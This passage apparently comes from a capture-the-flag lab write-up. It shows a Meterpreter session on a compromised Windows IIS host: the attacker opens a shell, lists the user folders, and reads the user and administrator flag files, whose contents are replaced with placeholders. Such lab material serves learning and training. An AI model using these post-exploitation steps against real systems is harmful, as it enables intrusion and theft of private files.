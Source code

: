 Looting the secrets,

```c
meterpreter > shell
Process 272 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>cd C:\Users\
cd C:\Users\

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users

18/03/2017  01:16 ��    <DIR>          .
18/03/2017  01:16 ��    <DIR>          ..
18/03/2017  01:16 ��    <DIR>          Administrator
17/03/2017  04:17 ��    <DIR>          babis
18/03/2017  01:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  09:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.697.284.608 bytes free

C:\Users>more C:\Users\babis\Desktop\user.txt
more C:\Users\babis\Desktop\user.txt
<USER FLAG>

C:\Users>more C:\Users\Administrator\Desktop\root.txt
more C:\Users\Administrator\Desktop\root.txt
<ROOT FLAG>
```
